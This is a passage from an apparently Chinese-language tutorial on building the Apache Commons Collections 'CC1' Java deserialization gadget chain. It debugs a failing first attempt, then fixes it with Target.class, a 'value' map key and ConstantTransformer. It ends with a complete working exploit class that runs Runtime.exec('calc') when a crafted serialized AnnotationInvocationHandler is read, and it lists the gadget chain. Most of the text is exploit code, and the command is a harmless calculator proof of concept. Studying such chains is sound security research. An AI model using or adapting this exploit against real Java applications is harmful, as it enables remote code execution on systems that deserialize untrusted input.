import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;
public class Exploit {
public static void main(String[] args) throws Exception {
Transformer[] transformer = new Transformer[] {
new InvokerTransformer("getDeclaredMethod",
new Class[]{String.class, Class[].class},
new Object[]{"getRuntime", null}),
new InvokerTransformer("invoke",
new Class[]{Object.class, Object[].class},
new Object[]{null, null}),
new InvokerTransformer("exec",
new Class[]{String.class},
new Object[]{"calc"})
};
Transformer chainedTransformer = new ChainedTransformer(transformer);
HashMap<Object, Object> hashMap = new HashMap<>();
hashMap.put("a", "b");
Map<Object, Object> transformedMap = TransformedMap.decorate(hashMap, null, chainedTransformer);
Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
// 根据AnnotationInvocationHandler构造函数获取其构造器
Constructor aiconstructor = c.getDeclaredConstructor(Class.class, Map.class);
aiconstructor.setAccessible(true);
Object o = aiconstructor.newInstance(Override.class, transformedMap);
serialize(o);
unserialize("ser.bin");
}
public static void serialize(Object obj) throws IOException {
ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
oos.writeObject(obj);
}
public static Object unserialize(String Filename) throws IOException, ClassNotFoundException{
ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
Object obj = ois.readObject();
return obj;
}
}
此时transform()的值并没有被正确设置，并不会弹出计算器
Fix：memberType为null
这个时候我们可以打断点调试一下，发现此时memberType为null

因为memberValue是可控的是我们传入的transformedMap，它触发getKey()只会获得我们当时随意设置的"a"，而memberType是我们传入的第一个参数Override.class，它里面并没有一个方法为"a"所以此时memberType为null。


那么解决这个问题只需要修改我们传入的第一个参数，并设置map的key为他的方法的名字

当我们设置传入第一个参数为Target.class,ke为value时，此时memberType便不为null

Fix：setValue的传参
在第二个if条件中，setValue的值并不为我们期望的Runtime.class，而是AnnotationTypeMismatchExceptionProxy。
那我们这里找到了一个能够解决 setValue 可控参数的类 ———— ConstantTransformer

构造方法：传入的任何对象都放在
iConstant中transform()方法：无论传入什么，都返回iConstant，这就类似于一个常量了。
那么我们可以利用这一点，将 AnnotationTypeMismatchExceptionProxy 类作为 transform() 方法的参数，也就是这个无关的类，作为参数，我们先传入一个 Runtime.class，然后无论 transform() 方法会调用什么对象，都会返回 Runtime.class
至此我们的问题都全部解决
0x05 Exploit
以下就是最终Exp：
package com.hsad;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;
public class Exploit {
public static void main(String[] args) throws Exception {
Transformer[] transformer = new Transformer[] {
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getDeclaredMethod",
new Class[]{String.class, Class[].class},
new Object[]{"getRuntime", null}),
new InvokerTransformer("invoke",
new Class[]{Object.class, Object[].class},
new Object[]{null, null}),
new InvokerTransformer("exec",
new Class[]{String.class},
new Object[]{"calc"})
};
Transformer chainedTransformer = new ChainedTransformer(transformer);
HashMap<Object, Object> hashMap = new HashMap<>();
hashMap.put("value", "b");
Map<Object, Object> transformedMap = TransformedMap.decorate(hashMap, null, chainedTransformer);
Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
// 根据AnnotationInvocationHandler构造函数获取其构造器
Constructor aiconstructor = c.getDeclaredConstructor(Class.class, Map.class);
aiconstructor.setAccessible(true);
Object o = aiconstructor.newInstance(Target.class, transformedMap);
serialize(o);
unserialize("ser.bin");
}
public static void serialize(Object obj) throws IOException {
ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
oos.writeObject(obj);
}
public static Object unserialize(String Filename) throws IOException, ClassNotFoundException{
ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
Object obj = ois.readObject();
return obj;
}
}
利用链：
InvokerTransformer#transform
TransformedMap#checkSetValue
AbstractInputCheckedMapDecorator#setValue
AnnotationInvocationHandler#readObject
工具类辅助利用链：
ConstantTransformer
ChainedTransformer
HashMap